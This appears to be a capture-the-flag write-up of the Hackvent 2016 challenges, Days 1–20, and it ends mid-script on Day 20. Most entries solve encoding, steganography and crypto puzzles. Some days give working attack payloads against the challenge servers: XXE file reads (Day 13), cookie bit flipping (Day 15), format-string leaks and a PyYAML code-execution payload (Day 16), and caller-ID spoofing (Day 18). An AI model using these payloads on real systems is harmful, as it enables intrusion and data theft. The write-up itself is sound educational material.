

Day 01: Detours
---------------
We first see that every link redirects to the same picture. When visiting the URLs with a browser through Burp we see that each of them redirects through a different link. These links are:

- <http://bit.do/HV16-t8Kd>
- <http://bit.do/38aY-QxL5>
- <http://bit.do/bn4K-c6Lw>

We recognize the flag format and when assembling them get the full flag:

> HV16-t8Kd-38aY-QxL5-bn4K-c6Lw


Day 02: Free Giveaway
---------------------
The data format looks like the flag already, has the good character length and the 16 in place. The hint points us to keyboard layouts. We need to "translate" the data between QWERTY and Dvorak layout. I used 2 different online converters to get a satisfying result:

- <http://awsm-tools.com/text/keyboard-layout>
- <https://spyrosoft.com/tools/qwerty-to-dvorak-translator.html>

And in the end we get the flag by combining both outputs:

> HV16-SDhs-qqpf-zQLp-OQH4-2Xmg


Day 03: Manufactory
-------------------
We get a text file that includes the mention slic3r 1.2.9. When looking this up in google we find a program that generates instructions for 3D printers (do it yourself hint in the challenge description). We need to find a way to render this file. This is possible using an online utility: <http://gcode.ws/>

When rendering we get a QR code that we can scan to find the flag:

> HV16-oY2d-2Ki7-JBDe-VVdg-X8bW


Day 04: Language Of Us
----------------------
The given text is shown in leet speak. We can recognize the wikipedia article about steganography and thus we look for some kind of stegano. We see that some characters are replaced by their leet version while others are not.

With a python script we replace all leet characters with 1 and all normal characters by 0. When removing all the rest we obtain a big binary blob. We can then split the blob into 8 char strings, convert these strings to decimal and then to characters and we obtain a string composed of dashes and in the middle lies the flag.

The python script is as follows:
```python
#!/usr/bin/python3

import re

f = open("original.txt")
leet = f.read()
#print(leet)

# complex chars
leet = re.sub('\|\)', 'D', leet)
leet = re.sub('\|-\|', 'H', leet)
leet = re.sub(r'/v\\', 'M', leet)
leet = re.sub('\|/\|', 'N', leet)
leet = re.sub('\|_\|', 'U', leet)
leet = re.sub(r'\\\'', 'V', leet)
leet = re.sub(r'\\/\\/', 'W', leet)
leet = re.sub('><', 'X', leet)
leet = re.sub('`/', 'Y', leet)
leet = re.sub('\|\*', 'P', leet)
leet = re.sub('\|=', 'F', leet)
leet = re.sub('\|2', 'R', leet)
leet = re.sub('\|<', 'K', leet)
leet = re.sub('_\|', 'J', leet)

# simple chars
leet = re.sub('4', 'A', leet)
leet = re.sub('3', 'E', leet)
leet = re.sub('9', 'G', leet)
leet = re.sub('\(', 'C', leet)
leet = re.sub('£', 'L', leet)
leet = re.sub('!', 'I', leet)
leet = re.sub('7', 'T', leet)
leet = re.sub('5', 'S', leet)
leet = re.sub('0', 'O', leet)
leet = re.sub('8', 'B', leet)

# to binary
leet = re.sub('[A-Z]', '1', leet)
leet = re.sub('[a-z]', '0', leet)

# clean
leet = re.sub('[^01]', '', leet)
#print(leet)

bins = [leet[i:i+8] for i in range(0, len(leet), 8)]
#print(bins)

final = ""
for b in bins:
        final += chr(int(b, 2))
print(final)
```

The flag is:

> HV16-O7oI-W34j-BJH7-cSvk-e5Hz


Day 05: Boolean Fun
-------------------
If we use 32 bit binary representation, as suggested in the description, we get the following:
```
0000000000000000000000000000100 = 4
0000000000000000000000000000111 = 7
0000000000000000000000000000111 = 4 OR 7

0000000000000000000010100111001 = 1337
0000000000001100111100100110010 = 424242
0000000000000000000000100110000 = 1337 AND 424242

0000000000000000000000100110111 = (4 OR 7) XOR (1337 AND 424242)
1111111111111111111111011001000 = !((4 OR 7) XOR (1337 AND 424242))
0000000000000001011000001010101 = 0xB055
1111111111111111111111011011101 = 0xB055 OR !((4 OR 7) XOR (1337 AND 424242))
```

The final value can actually be interpreted as a 2-complement and gives -291. With this value, the flag is revealed in the ball-o-matic:

> HV16-2wGq-wOX3-T2oe-n8si-hZ0A


Day 06: Back 2 Work
-------------------
We can unzip the file using the password "confidential" but this helps in no way...

We actually had to look at the comment for each files in the original archive. The comments are made our of tabs and spaces (bytes 0x09 and 0x20). We can extract the comments within python interpreter and see that it looks like a QR code:
```python
>>> import zipfile
>>> zf = zipfile.ZipFile('holiday.zip', 'r')
>>> for info in zf.infolist():
...     print(info.comment)
... 
b'       \t\t\t\t\t \t \t\t\t       \x00'
b' \t\t\t\t\t \t \t \t     \t \t\t\t\t\t \x00'
b' \t   \t \t\t\t\t \t\t  \t\t \t   \t \x00'
b' \t   \t \t     \t \t\t\t \t   \t \x00'
b' \t   \t \t\t \t\t\t \t\t \t \t   \t \x00'
b' \t\t\t\t\t \t  \t\t    \t\t \t\t\t\t\t \x00'
b'       \t \t \t \t \t \t       \x00'
b'\t\t\t\t\t\t\t\t\t  \t \t \t \t\t\t\t\t\t\t\t\x00'
b'     \t    \t   \t   \t \t \t \t\x00'
b' \t    \t\t\t\t  \t \t  \t\t\t\t \t \t\x00'
b' \t  \t\t \t \t \t\t\t    \t  \t\t\t \x00'
b'\t\t\t   \t\t\t\t\t \t\t        \t\t\t\x00'
b'\t\t\t        \t\t\t \t\t  \t\t\t   \x00'
b'   \t \t\t \t\t\t  \t \t\t \t \t\t\t  \x00'
b' \t \t      \t\t  \t  \t  \t    \x00'
b' \t\t   \t \t \t \t\t\t \t \t\t  \t\t \x00'
b' \t\t \t  \t\t  \t\t\t         \t\t\x00'
b'\t\t\t\t\t\t\t\t   \t\t\t \t \t\t\t \t \t \x00'
b'       \t \t \t\t  \t \t \t \t\t  \x00'
b' \t\t\t\t\t \t\t\t\t\t\t\t   \t\t\t \t\t  \x00'
b' \t   \t \t \t           \t  \t\x00'
b' \t   \t \t  \t  \t \t    \t    \x00'
b' \t   \t \t   \t\t\t\t\t \t  \t\t\t\t \x00'
b' \t\t\t\t\t \t \t \t \t      \t \t\t \x00'
b'       \t  \t\t\t \t\t\t\t \t \t   \x00'
```

We then create a simple python script to save this data as a picture:
```python
!/usr/bin/python3

import zipfile
from PIL import Image

im = Image.new("RGB", (25,25))
pix = im.load()

x = 0
y = 0

zf = zipfile.ZipFile('holiday.zip', 'r')
for info in zf.infolist():
        y = 0
        for c in info.comment:
                if c == 32:
                        pix[x,y] = (0,0,0)
                        y += 1
                elif c == 9:
                        pix[x,y] = (255,255,255)
                        y += 1
        x += 1

im.save("qr.png", "PNG")
```

When scanning the resulting QR code we get the flag:

> HV16-y9YO-sDo1-Vi7O-RWq1-V7hN


Day 07: TrivialKRYPTO 1.42
--------------------------
In this challenge we are presented with a code that looks like some crypto mechanism using CRC32 function. When looking closely we see that everything happens client-side in JavaScript. We can assume that the result, if we can find the correct password, will be the flag being displayed.

Here is the interesting script excerpt:
```javascript
s3cr3t=[2155568001, 3847164610, 2684356740, 2908571526, 2557362074, 2853440707, 3849194977, 3171764887];
document.getElementById('decrypt').onclick = function() {
    var pass = document.getElementById('pass').value;
    
    var s="";
    for(var i=0;i<s3cr3t.length;i++) {
        var pp="";
        for(var p = (s3cr3t[i] ^ crc32(pass)); p>0; p>>=8) {
            pp = String.fromCharCode(p&0xFF)+pp;
        }
    s+=pp;
}
```

From there on, we know that the string "s" that is being generated must be the flag and thus it starts with HV16. We can do a known-plaintext attack against the system and try to guess what the crc32(pass) value will be. Since this value does not change we only need to find it once and it will be our key, we don't need the password :)

For the first iteration s3cr3t[0] is used so we need to find a guess such that:
```
s3cr3t[0] ^ guess = 'HV16'
=> s3cr3t[0] ^ 'HV16' = guess
=> guess = 0b10000000011110110101101110000001 ^ 0b01001000010101100011000100110110
=> guess = 0xc82d6ab7
```

When modifying the page to input this value instead of crc32(pass) we see in the browser's debugger that 'HV16' is correctly generated. And if we let the script run through the end the whole flag is generated:

> HV16-bxuh-b3ep-1PCU-b9ft-CgVu


Day 08: Lost In Encoding
------------------------
The provided files starts with a header that is for yencode (after some googling). I first decoded it using python library for yenc and this simple script:
```python
#!/usr/bin/python2

import yenc

yenc.decode('l0st_1n_7ranslation.fun', 'lost2')
```

The script returns some data but it is not usable. After much tests to decode the output I tried using another tool yEnc32 - only available for Windows by the way :( And this time I got a readable file, `lost_in_translation_2.txt`

This file looks like base64, let's try it using:
```bash
$ cat lost_in_translation_2.txt | base64 -d > lost_in_translation_3.txt
$ cat lost_in_translation_3.txt
<~6Z6g\F`_28+EM%,ASu!h+D#)+@psInDf-\-@;]t$F<GF/CLnVsDL#]0A9f;+DBNM8E+O'3+E2@>B6%EtD.R`1@;^?5D/XH++EV:*DBO"BF_#c3DJ()$EclG:ATJu&DIal/BkM9oDKI"2@;[3)@;BEsF)Po,@W,e&+CT.1AU&0*Ec`FC@;0V$ATBCG/KdK&Bk&8a/g+&#H#7J;A0=ED0fCV"0QV=f0lApj/Mq?dCb7J&0eb1s0JHr~>
```

This looks now like Base85 (Ascii85) and can be decoded using this command:
```bash
$ ascii85 -d lost_in_translation_3.txt
Computer science education cannot make anybody an expert programmer any more than studying brushes and pigment can make somebody an expert painter. - Eric S. Raymond HV16-l0st-1n7r-4nsl-4710-n00b
```

And we have the flag:

> HV16-l0st-1n7r-4nsl-4710-n00b


Day 09: Illegal Prime Number
----------------------------
We get this big number that has nothing to do with a prime. When converting it to hexadecimal we have the following:
0x504b0304140009000800910a83495435eceb2b0000001d00000008000000466c61672e
747874567168e0247901d8bae9376014e1dba33d60231a36996b43e1f94d8fc0f9fa53e9
dd803ecdae6d5f164db2504b07085435eceb2b0000001d000000504b01021f0014000900
0800910a83495435eceb2b0000001d000000080024000000000000002000000000000000
466c61672e7478740a0020000000000001001800e4f6c610fb4cd201e90d9380f84cd201
54178980f84cd201504b050600000000010001005a0000006100000000000195

We see that it starts with 50 4b 03 04 ... these are the magic bytes for zip file. So we convert this hex number to a file using:
```bash
$ echo "504b0304140009000800910a83495435eceb2b0000001d00000008000000466c\ 
61672e747874567168e0247901d8bae9376014e1dba33d60231a36996b43e1f94d8fc0f9\ 
fa53e9dd803ecdae6d5f164db2504b07085435eceb2b0000001d000000504b01021f0014\ 
0009000800910a83495435eceb2b0000001d000000080024000000000000002000000000\ 
000000466c61672e7478740a0020000000000001001800e4f6c610fb4cd201e90d9380f8\ 
4cd20154178980f84cd201504b050600000000010001005a0000006100000000000195"\ 
 | xxd -p -r > file.zip
```

When trying to unzip it we get a password prompt. We must thus crack the password. Using fcrackzip we do a dictionnary attack with a small wordlist present by default on Kali Linux:
```bash
$ fcrackzip -v -m zip1 -D -u -p /usr/share/dict/cracklib-small file.zip
found file 'Flag.txt', (size cp/uc     43/    29, flags 9, chk 0a91)


PASSWORD FOUND!!!!: pw == qwerty
```

Then we only have to unzip the file and read Flag.txt which contains the flag:

> HV16-0228-d75b-40cd-8a0e-1f3e


Day 10: I want to play a Game
-----------------------------
The file we are given is a playstation executable:
```bash
$ file HV16.EXE
HV16.EXE: Sony Playstation executable PC=0x8001626c, .text=[0x80010000,0x8800], Stack=0x801ffff0, (Japan area)
```

When running it into an emulator we get a nice green screen asking us to decrypt the flag. And looking at the file in an hex editor we notice the following section:
```
00006C60  08 00 40 01  3F 00 09 24   00 00 00 00  64 65 63 72      ..@.?..$....decr
00006C70  79 70 74 20  74 68 65 20   66 6C 61 67  20 79 6F 75      ypt the flag you
00006C80  20 6E 30 30  62 00 00 00   4B 52 34 30  2A 5E 64 3F       n00b...KR40*^d?
00006C90  72 21 43 64  68 58 3C 77   24 60 42 3B  47 7F 54 7B      r!CdhX<w$`B;G.T{
00006CA0  36 2A 2C 54  57 00 00 00   50 73 08 00  00 00 46 00      6*,TW...Ps....F.
```

We can see the string that asks us to decrypt the flag and then another string starting with KR40 and ending with TW. This string is exactly 29 bytes long, like a flag :)

We use this as a ciphertext: `0x4B5234302A5E643F7221436468583C772460423B477F547B362A2C5457`

We know that the flag starts with HV16- so plaintext is: `0x485631362d????????2d????????2d????????2d????????2d????????`

If we XOR the start of plaintext and ciphertext we get:
```
    0x4B5234302A
XOR 0x485631362d
  = 0x0304050607
```

We guess that the key could go on that way with `08090a0b...` and thus the full key would be: `0x030405060708090a0b0c0d0e0f101112131415161718191a1b1c1d1e1f`

We can make the xor with this python script:
```python
cipher = 0x4B5234302A5E643F7221436468583C772460423B477F547B362A2C5457
key = 0x030405060708090a0b0c0d0e0f101112131415161718191a1b1c1d1e1f
plain = cipher ^ key

flag=""
for i in range(29):
	b = plain & 0xff
	flag = chr(b) + flag
	plain = plain >> 8

print(flag)
```

And we get the flag:

> HV16-Vm5y-NjgH-e7tW-PgMa-61JH


Day 11: A-maze-ing GIFt
-----------------------
The Gif looks like a QR code. When loaded into Stegsolve, see [1], we use the random color map function to color it such that a QR code reader can read it. This already gives the flag:

> HV16-otli-KbAg-MDVb-TMTO-WTDI

\[1\]: A Challengers Handbook, <http://www.caesum.com/handbook/stego.htm>


Day 12: Crypt-o-Math
--------------------
The file we get is a list of integers and looking at the second line we see that each line must be a tuple like `(m,b,p)` With the two last lines we see that we need to find 'a' such that the equation `m = a * 0x1337 * b % p` is satisfied. Since there are 29 tuples concatenating the values of a should give our flag.

If the flag is really constructed like this, then we should find it easily by looping over the integers from 0 to 255 (we could do less of course but I was lazy). So with this python script we can get the flag. In `data.txt` are only the lines with the tuples `(m,b,p)`.
```python
#!/usr/bin/python3

f = open('data.txt', 'r')
flag = ""

for line in f:
        (n1, n2, n3) = line.split(',')
        m = int(n1)
        b = int(n2)
        p = int(n3)
        for a in range(255):
                if m == a * 0x1337 * b % p:
                        flag = flag + chr(a)

print(flag)
```

And the flag is:

> HV16-laWz-D5yT-0Uzb-DFj0-FIsL


Day 13: JCoinz
--------------
We get a service running on a port and a jar file that seems to be the code of the service. When decompiling the jar file we see that we need more coinz. Initially we have only 1336 but we need 1337 to send the XML message to administrator which is probably the function we want to exploit. The code of the function payCoins() shows that we could use the signed int representation to trick the system:
```java
  public boolean payCoins(int amount)
  {
    if (getCoins() <= 0)
    {
      IO.printStatus("-", "No more jcoinz!\n\n");
      return false;
    }
    if (amount < 0) {
      amount *= -1;
    }
    int decreasedCoins = getCoins() - amount - Shop.transactionTax;
    if (decreasedCoins < 0)
    {
      IO.printStatus("-", "You cannot generate debts!\n\n");
      return false;
    }
    setCoins(decreasedCoins);
    
    IO.printStatus("-", "Decreased the account of \"" + getName() + "\" by " + String.valueOf(amount) + "\n");
    
    return true;
  }
```

To do this we need to have more than 0 coins, otherwise we are rejected by the first if clause. So we start by sending 1333 coins to charity (such that only 1 coin is left). Then, thanks to binary representation of signed integer the following happens when sending -2147483648 (0x80000000) coins to charity:

1. amount <0 => amount *= -1
2. amount is still the same thanks to signed int representation
3. decreasedCoins = 1 - amount - 2 = (1 - 0x80000000) - 2  = (0x80000001) - 2 = 0x7fffffff = 2147483647
4. since decreasedCoins is >0 we get that amount on our account.

Now we can start to play with the send XML function. We see that our messages are somehow processed and displayed back. And then when XML is processed we can start some tests with XXE and we see immediately that it works, see the excerpt below:
```
[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <!DOCTYPE doc [<!ENTITY e "FOO">]><doc><a>&e;</a></doc>
[+] Your secret xml message: <doc><a>FOO</a></doc>
```

Then we use the SYSTEM keyword to see if we can access the current directory:
```
[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <!DOCTYPE doc [<!ENTITY e SYSTEM "./">]><doc><a>&e;</a></doc>
[+] Your secret xml message: <doc><a>.dockerenv
bin
dev
etc
home
lib
lib64
linuxrc
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</a></doc>
```

We can then browse the file system (slowly) lookingfor something interesting and in the end we locate a file in the /home/jcoinz directory that contains the flag:
```
[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <!DOCTYPE doc [<!ENTITY e SYSTEM "/home/jcoinz/9f40461baba9bf00ba9174beeeb9b8a80c0ffba6">]><doc><a>&e;</a></doc>
[+] Your secret xml message: <doc><a>
You did it!

Greets, MuffinX

HV16-y4h0-g00t-d33m-c01n-zzzz

If you liked this challenge, tweet me: https://twitter.com/muffiniks
</a></doc>
```

And the flag is:

> HV16-y4h0-g00t-d33m-c01n-zzzz


Day 14: Radio War Game
----------------------
An awesome post was written by my favorite CEO on the blog of the best company in the world (yes, I work there :D), [1] This shows some basics for RTL-SDR.

Using inspectrum we visualize the signal and see a list of morse-code like signals. We use OOK and interprete no signal as 0 and signal on as 1 which would give something like (omitting the first sequence of 010101...):
```
100110100110101010011001100101101010010110101001101001011001011010100110
010110011010010110101001101001011010010110100101101001011010010110010101
101001100101100110011001101001101001011010101001100101101001101010010110
011010011010011001011001100101100101010110011001100101011001011010101001
100101011010011010100110010110011001011010010101100101101010100110010110
010110011001011010011001101001100101100110100101101010011010010110100101
1010010110100101101001011001010110101010011001
```

This could probably have been done using GNU radio but I'm not proficient enough with the tool. So after one hour of fiddling with thresholds, throttle and scpoe sink I made it by hand! With the challenge description we are hinted at manchester coding (up flank is a 1, down flank is a 0). I wrote the following python script to decode the sequence.
```python
#!/usr/bin/python3

sdrData = '100110100110101010011001100101101010010110101001101001011001'
+ '01101010011001011001101001011010100110100101101001011010010110100101'
+ '10100101100101011010011001011001100110011010011010010110101010011001'
+ '01101001101010010110011010011010011001011001100101100101010110011001'
+ '10010101100101101010100110010101101001101010011001011001100101101001'
+ '01011001011010101001100101100101100110010110100110011010011001011001'
+ '10100101101010011010010110100101101001011010010110100101100101011010'
+ '1010011001'
array = [sdrData[i:i+2] for i in range(0, len(sdrData), 2)]

bitString = ""
for a in array:
        if a == '01':
                bitString += "1"
        elif a == '10':
                bitString += "0"
        else:
                print("Error!")
                exit()

chars = [chr(int(bitString[i:i+8], 2)) for i in range(0, len(bitString), 8)]
flag = "".join(chars)
print(flag)
```

And when running it we get the flag:

> HV16-1337-Radi-oWar-game-1337

\[1\] Software Defined Radio (SDR) and Decoding On-off Keying (OOK), <https://blog.compass-security.com/2016/09/software-defied-radio-sdr-and-decoding-on-off-keying-ook/>


Day 15: SAP - Santas Admin Panel
--------------------------------
The challenge description immediately hints at bit flipping so let's log in with the valid account and try to modify the cookie named cmlnaHRz. I started by modifying each character to see when the resulting page would change. My original cookie was: `cmlnaHRz=5WT4yVGAfS/n0z5MzSbbZd0K3vpWLmhfxuFo85apE+o=`

I first found a value that changes the user role to none: `cmlnaHRz=5WT4yVGAfS+n0z5MzSbbZd0K3vpWLmhfxuFo85apE+o=`

If you look closely, you will see that the '/' is now a '+'.

OK, so bit flipping it is, now we need to find the value that will give us admin access. Burp has a very handy tool called Intruder that allows us to do bit flipping automatically on the chosen payload. We send the request to the Intruder and configure it as shown in the screenshots.

First we show the request as it is fed in the Intruder. The payload will be derived from the initial cookie (marked in orange):


Then we have the options for the payload. We use the bit flipper tool with default configuration:


We also add a "Grep - Extract" option to display the role returned by the request:


Finally we start the attack and the results are displayed. Highlighted is the request with the successful payload and the Admin role that results:


Then we only have to fetch the image in the browser and scan the QR-code to get the flag:

> HV16-R41n-d33r-8yt3-Fl1p-H4ck


Day 16: Marshmallows
--------------------
Definitely the hardest challenge until now for me but worth the effort!

We are provided with python script (and the source) that run on a remote server. We notice with the challenge hint that the printf function can be abused by using modifiers like %d, %f, %x, %s... And it returns what is on the stack. To access the second part of the challenge (the secret marshmallows) we need to find the token that must be stored somewhere on the stack (at least a reference to this string). Useful resource is [1].

Using pwntools we can create the following script that will enumerate as a string all the memory addresses in a range and restart the connection if the service crashes:
```python
#!/usr/bin/python2

from pwn import *

r = remote('challenges.hackvent.hacking-lab.com', 1033)
trash = r.recvuntil("> ")
for i in range(201, 300):
        try:
                r.sendline("1")
                r.sendline("%" + str(i) + "$s")
                result = r.recvuntil("> ")
                print(str(i) + "\n=====\n" + result)
        except EOFError:
                r = remote('challenges.hackvent.hacking-lab.com', 1033)
                trash = r.recvuntil("> ")
```

We look at the output until we find these two lines:
```
[+] Please give me some marshmallows: %294$s
MARSHMALLOW_TOKEN=eb261970-9745-4180-9f3c-d6a3cdaeee8d
```

Since the memory layout seems to be constant we don't need to rerun it and the `%294$s` string will always be the token. We can now go to step 2 and try to exploit the yaml.load() function. To do that we find some exploits on Internet and especially [2]. We can then try it localy using another python script:
```python
import yaml
import base64

load_yml = yaml.load
user_input = "..."

exploit = base64.b64encode("!!python/object/apply:subprocess.call\nargs: [ls]\nkwds: {shell: true}")
print(exploit)

secret_marshmallows = load_yml(base64.b64decode(exploit).decode('ascii'))
print(secret_marshmallows)
```

The script will output the payload base64 encoded and execute it locally as well. We can now browse through the folders. We know from the search for the token that a /home/marshmallow folder exist so we start there and we perform the following session online to get the flag:
```
nc challenges.hackvent.hacking-lab.com 1033
[+] WELCOME!

MuffinX presents...

                /^\/^\
              _|__|  O|
     \/     /~     \_/ \
      \____|__________/  \
             \_______      \
                     `\     \                 \
                       |     |                  \
                      /      /                    \
                     /     /                       \
                   /      /                         \ \
                  /     /                            \  \
                /     /             _----_            \   \
               /     /           _-~      ~-_         |   |
              (      (        _-~    _--_    ~-_     _/   |
               \      ~-____-~    _-~    ~-_    ~-_-~    /
                 ~-_           _-~          ~-_       _-~
                    ~--______-~                ~-___-~        ... Marshmallows! <3

[+] Menu

1 - Play chubby bunny.
2 - Exit.

### GET THE TOKEN ###

> 1
[+] Please give me some marshmallows: %294$s
MARSHMALLOW_TOKEN=eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Menu

1 - Play chubby bunny.
2 - Exit.

### USE THE TOKEN AND EXECUTE 'ls /home/marshmallows' PAYLOAD ###

> send_secret_marshmallows
[?] Token: eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Good token.
[?] Your secret marshmallows: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3
MuY2FsbAphcmdzOiBbbHMgL2hvbWUvbWFyc2htYWxsb3dzXQprd2RzOiB7c2hlbGw6IHRydWV9
5ae64891a82f2290f157e8fa419c2d3d
marshmallows.py
marshmallows.sh
[+] Menu

1 - Play chubby bunny.
2 - Exit.

### USE THE TOKEN AND EXECUTE 'cat /home/marshmallows/5ae64891a82f2290f157e8fa419c2d3d' PAYLOAD ###
> send_secret_marshmallows
[?] Token: eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Good token.
[?] Your secret marshmallows: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3
MuY2FsbAphcmdzOiBbY2F0IC9ob21lL21hcnNobWFsbG93cy81YWU2NDg5MWE4MmYyMjkwZj
E1N2U4ZmE0MTljMmQzZF0Ka3dkczoge3NoZWxsOiB0cnVlfQ==

You did it!

Greets, MuffinX

HV16-m4rs-hm4l-l0wh-4x0r-sr0x

If you liked this challenge, tweet me: https://twitter.com/muffiniks
[+] Menu

1 - Play chubby bunny.
2 - Exit.

> 
```

And the flag is:

> HV16-m4rs-hm4l-l0wh-4x0r-sr0x

References:

- \[1\] Format String Exploitation-Tutorial, <https://www.exploit-db.com/docs/28476.pdf>
- \[2\] PyYaML exploit, <http://xsnippet.org/361037/>


Day 17: I want to play a Game
-----------------------------
Not done, I'm not a big fan of reverse engineering and I have no time to learn that now :)


Day 18: Calling Santa
---------------------
In this challenge we have to spoof our caller ID such that the voicemail accepts our phone call. Some online services allows to do that with SIP client. I used voip.ms [1], created an account, added funds, configured caller ID to +41 76 000 00 00 and set up a SIP client (zoiper) on my smartphone. Then I could call the number and get the voice message.

After that we are told to press certain keys to access to a real monkey, a real hacker, a real cracker and eventually a real security professional. So in turn we press 1, 13, 133 and finally 1337. Which gives a congratulations and the flag is also given:

> HV16-PKPK-UKUK-AKAK-CKCK-FUCK

\[1\] voip.ms :: Worldwide VoIP Origination and Termination, <https://voip.ms/>


Day 19: Zebra Code
------------------
This challenge looked very simple, each point in the polyline (from SVG file) can be mapped to a pixel of the zebra picture. We can then convert each pixel either to black or to white with a threshold, convert this to a barcode and get the flag... Except that it does not work!

We had to do a bit more because we have a line and not only a list of points. We have to map each point along the line to a pixel and then only convert this to a barcode. So we have to find the list of pixels along the polyline. After googling a bit we find an algorithm that allows that. It's called Bresenham's algorithm, see [1]. For a pair of 2 coordinates (x1, y1), (x2, y2) it returns all the coordinates of the points required to draw a line in between.

Using the code from [2] for Bresenham's implementation I wrote a script that will:

- use the polyline and feed it to the Bresenham's algorithm and create a list of all required points
- get the value of each point in the zebra picture
- create a new "straight" line picture from it

Then we only have to open this "line picture" in GIMP, apply a threshold to have only B/W pixels and resize it to make it easily readable by a barcode scanner. We can then scan it with a barcode reader, this time I used [3].

The script:
```python
#!/usr/bin/python3

from PIL import Image

def get_line(start, end):
    # Setup initial conditions
    x1, y1 = start
    x2, y2 = end
    dx = x2 - x1
    dy = y2 - y1
 
    # Determine how steep the line is
    is_steep = abs(dy) > abs(dx)
 
    # Rotate line
    if is_steep:
        x1, y1 = y1, x1
        x2, y2 = y2, x2
 
    # Swap start and end points if necessary and store swap state
    swapped = False
    if x1 > x2:
        x1, x2 = x2, x1
        y1, y2 = y2, y1
        swapped = True
 
    # Recalculate differentials
    dx = x2 - x1
    dy = y2 - y1
 
    # Calculate error
    error = int(dx / 2.0)
    ystep = 1 if y1 < y2 else -1
 
    # Iterate over bounding box generating points between start and end
    y = y1
    points = []
    for x in range(x1, x2 + 1):
        coord = (y, x) if is_steep else (x, y)
        points.append(coord)
        error -= abs(dy)
        if error < 0:
            y += ystep
            error += dx
 
    # Reverse the list if the coordinates were swapped
    if swapped:
        points.reverse()
    return points

# copied from SVG file
polyline = "804,409,746,430,772,395,742,379,776,340,707,346,712,383,808,"
+ "325,747,291,688,331,635,406,587,325,622,312,651,279,622,307,638,347,"
+ "626,412,633,454,668,418,651,381,622,412,615,313,590,402,550,352,567,"
+ "370,584,344,609,275,620,323,641,282,676,302,654,323,659,363,669,400,"
+ "698,359,730,359,762,340,806,360,736,390,777,388,770,419,791,412,793,"
+ "387,752,402,782,362,771,321,756,344,720,317,751,310,738,262,701,242,"
+ "669,296,675,337,656,376,627,399,633,347,611,323,650,283,672,262,645,"
+ "293,641,322,610,352,607,375,617,410,661,353,640,328,689,275,691,319,"
+ "732,315,759,352,794,319,763,368,819,355,814,305,777,284,753,352,693,"
+ "368,748,304,710,281,693,317,619,310,647,340,696,321,730,276,775,268,"
+ "732,311,809,318,761,373,732,349,749,316,812,323,742,302,707,326,689,"
+ "258,660,308,662,361,625,429,605,391,606,340,648,281,666,309,651,330,"
+ "736,277,735,312,759,339,783,264,721,271,666,323,649,328,650,274,619,"
+ "278,615,318,607,398,622,438,625,391,655,409,654,326,692,329,705,290,"
+ "675,305,718,239,780,300,719,316,755,292,801,334,770,336,787,360,735,"
+ "365,731,393,815,380,766,368,731,353,760,341,714,328,740,308,694,306,"
+ "652,330,685,274,633,296,619,320,631,357,657,323,766,305,700,250,636,"
+ "343,651,392,701,367,711,287,680,356,682,288,756,278,740,241,705,284,"
+ "632,286,618,311,673,311,614,335,603,455,627,409,648,439,672,392,696,"
+ "368,715,384,745,352,741,301,788,298,722,281,781,343,715,338,708,280,"
+ "798,295,752,274,798,285,729,322,755,363,774,295,793,332,763,341,728,"
+ "420,778,420,810,406,766,389,805,382,743,413,757,372,784,331,728,366,"
+ "713,328,744,310,706,288,679,346,629,365,611,325,651,333,696,265,715,"
+ "291,709,339,744,277,802,293,747,307,786,324,799,366,768,327,721,380,"
+ "771,288,819,319,783,326,744,310,797,362,738,340,730,393,775,366,710,"
+ "340,779,291,805,342,715,266,712,352,648,420,624,363,644,276,598,319,"
+ "633,312,585,359,565,306,571,346,591,410,584,327,624,319,656,303,691,"
+ "330,656,372,690,318,734,313,719,269,687,270,669,299,762,274,780,299,"
+ "703,304,711,342,819,329,768,287,718,335,757,343,735,262,697,249,632,"
+ "351,601,354,665,243,687,241,664,300,729,260,694,321,749,298,808,290,"
+ "785,326,710,276,677,294,648,333"
array = polyline.split(',')

# split the polyline in a list of (x,y) coords
coords = [(int(array[i]), int(array[i+1])) for i in range(0, len(array), 2)]

coords_list = []
for i in range(0, len(coords)-1):
	# extend the list with all pixel coords in the line between two points using Bresenham's algorithm
	coords_list.extend(get_line(coords[i], coords[i+1]))
	# remove last pixel because otherwise it gets added twice
	del coords_list[-1]

# open zebra image
im = Image.open('zebra4.png')
pix = im.load()

# create new result image using pixels at the coordinates given by Bresenham's algorithm
width = len(coords_list)
height = 1
im2 = Image.new('RGB', (width,height), 'white')
pix2 = im2.load()

for x in range(width):
	for y in range(height):
		pix2[x,y] = pix[coords_list[x][0], coords_list[x][1]]

im2.save("barcode.png")
```

And after the GIMP/barcode scanning thing we get the flag:

> HV16-kW2j-jE4w-ykh6-aF7j-0rcQ

References:

- \[1\] Bresenham's algorithm, <https://en.wikipedia.org/wiki/Bresenham's_line_algorithm>
- \[2\] bresenham's algorithm implementation in Python, <http://www.roguebasin.com/index.php?title=Bresenham%27s_Line_Algorithm#Python>
- \[3\] ZXing Online Decoder, <https://zxing.org/w/decode.jspx>


Day 20: MitT
------------
On this challenge when running the VM image we can press "Enter" key several times in the "fireplace" screen to get a CLI. In retrospect we could also have run the script on every port in sequence until we found the one to connect to if we did not had access to this CLI. Using the CLI we can use the commands `ifconfig` to show the current IP and `netstat -l` to show the listening ports. When connecting on the IP:port combination using netcat we get this:
```bash
$ nc 192.168.43.61 26139
port 36862 in 8 seconds
```

So we should connect to this port after waiting this number of seconds. Lets automate this with a script:
```python
#!/usr/bin/python2

import argparse
import time
from pwn import *

parser = argparse.ArgumentParser()
parser.add_argument("ip", help="The IP to connect to.")
parser.add_argument("port", help="The first port that should be knocked.", type=int)
args = parser.parse_args()

delay = 0
new_port = args.port
